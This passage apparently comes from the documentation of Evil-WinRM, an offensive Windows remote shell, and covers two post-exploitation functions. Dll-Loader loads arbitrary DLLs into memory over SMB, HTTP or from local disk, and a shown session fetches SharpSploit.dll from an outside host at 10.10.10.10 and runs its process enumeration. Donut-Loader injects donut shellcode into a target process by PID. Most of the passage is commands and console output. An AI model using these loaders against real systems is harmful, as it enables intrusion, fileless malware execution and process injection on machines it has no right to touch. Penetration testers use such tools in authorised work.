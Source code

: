 - Dll-Loader: allows loading dll libraries in memory, it is equivalent to: `[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("pwn.dll"))`
    
    The dll file can be hosted by smb, http or locally. Once it is loaded type `menu`, then it is possible to autocomplete all functions.
    

```
*Evil-WinRM* PS C:\> Dll-Loader
.SYNOPSIS
    dll loader.
    PowerShell Function: Dll-Loader
    Author: Hector de Armas (3v4Si0N)

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION
    .
.EXAMPLE
    Dll-Loader -smb -path \\192.168.139.132\\share\\myDll.dll
    Dll-Loader -local -path C:\Users\Pepito\Desktop\myDll.dll
    Dll-Loader -http -path http://example.com/myDll.dll

    Description
    -----------
    Function that loads an arbitrary dll

*Evil-WinRM* PS C:\> Dll-Loader -http http://10.10.10.10/SharpSploit.dll
[+] Reading dll by HTTP
[+] Loading dll...
*Evil-WinRM* PS C:\Users\test\Documents> menu

 [... Snip ...]

*Evil-WinRM* PS C:\> [SharpSploit.Enumeration.Host]::GetProcessList()


Pid          : 0
Ppid         : 0
Name         : Idle
Path         :
SessionID    : 0
Owner        :
Architecture : x64

```

- Donut-Loader: allows to inject x64 payloads generated with awesome [donut](https://github.com/TheWover/donut) technique. No need to encode the payload.bin, just generate and inject!

```
*Evil-WinRM* PS C:\> Donut-Loader
.SYNOPSIS
    Donut Loader.
    PowerShell Function: Donut-Loader
    Author: Luis Vacas (CyberVaca)
    Based code: TheWover

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION

.EXAMPLE
    Donut-Loader -process_id 2195 -donutfile /home/cybervaca/donut.bin
    Donut-Loader -process_id (get-process notepad).id -donutfile /home/cybervaca/donut.bin

```